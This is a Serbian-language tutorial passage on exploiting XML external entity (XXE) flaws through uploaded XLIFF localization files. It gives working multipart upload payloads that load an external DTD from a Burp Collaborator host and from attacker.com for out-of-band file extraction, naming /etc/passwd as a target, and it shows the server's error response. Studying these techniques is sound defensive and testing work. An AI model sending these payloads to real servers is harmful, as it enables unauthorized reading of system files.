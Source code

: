 ## XLIFF - XXE

Ovaj primer je inspirisan [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)

XLIFF (XML Localization Interchange File Format) se koristi za standardizaciju razmene podataka u procesima lokalizacije. To je format zasnovan na XML-u koji se uglavnom koristi za prenos lokalizovanih podataka između alata tokom lokalizacije i kao zajednički format razmene za CAT (računarski podržani prevod) alate.

### Analiza slepe zahteve

Zahtev je poslat serveru sa sledećim sadržajem:

```xml
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

Međutim, ovaj zahtev pokreće internu serversku grešku, posebno pominjući problem sa deklaracijama obeležja:

```json
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

I pored greške, zabeležen je pogodak na Burp Collaborator-u, što ukazuje na određeni nivo interakcije sa spoljnom entitetom.

Izvantrakačno Izvlačenje Podataka Za izvlačenje podataka, šalje se modifikovan zahtev:

```
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

Ovaj pristup otkriva da User Agent pokazuje korišćenje Java 1.8. Primećeno ograničenje ove verzije Jave je nemogućnost povlačenja datoteka koje sadrže znak nove linije, poput /etc/passwd, korišćenjem Out of Band tehnike.
